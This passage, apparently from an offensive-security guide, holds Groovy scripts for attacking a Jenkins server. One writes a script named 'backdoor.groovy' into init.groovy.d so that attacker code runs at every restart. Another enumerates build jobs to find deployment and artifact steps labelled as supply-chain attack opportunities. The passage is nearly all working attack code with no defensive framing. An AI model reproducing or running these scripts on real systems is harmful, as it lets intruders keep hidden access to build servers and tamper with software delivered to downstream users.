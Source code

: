 ```groovy
        // Install as system Groovy script
        def initScript = new File(jenkins.getRootDir(), "init.groovy.d/backdoor.groovy")
        initScript.parentFile.mkdirs()
        initScript.text = backdoorScript
        
        println "[+] Persistent backdoor installed in init.groovy.d"
        println "[+] Backdoor will execute on Jenkins restart"
        
    } catch (Exception e) {
        println "Backdoor installation failed: ${e.getMessage()}"
    }
}

// installPersistentBackdoor()
```

#### Supply Chain Attack Preparation
```groovy
// Prepare for supply chain attacks through build modification
def prepareSupplyChainAttack() {
    try {
        def jenkins = Jenkins.instance
        def jobs = jenkins.getAllItems(hudson.model.Job.class)
        
        println "[+] Analyzing jobs for supply chain attack opportunities:"
        
        jobs.each { job ->
            println "\nJob: ${job.getName()}"
            
            // Check for deployment configurations
            if (job.hasProperty('publishers')) {
                job.getPublishers().each { publisher ->
                    println "  Publisher: ${publisher.class.simpleName}"
                    
                    // Look for deployment publishers
                    if (publisher.class.simpleName.contains("Deploy") || 
                        publisher.class.simpleName.contains("Publish")) {
                        println "  [!] Deployment capability detected"
                    }
                }
            }
            
            // Check for artifact archiving
            if (job.hasProperty('builders')) {
                job.getBuilders().each { builder ->
                    println "  Builder: ${builder.class.simpleName}"
                    
                    if (builder.class.simpleName.contains("Archive") ||
                        builder.class.simpleName.contains("Artifact")) {
                        println "  [!] Artifact creation detected"
                    }
                }
            }
        }
        
    } catch (Exception e) {
        println "Supply chain analysis failed: ${e.getMessage()}"
    }
}

// prepareSupplyChainAttack()
```

---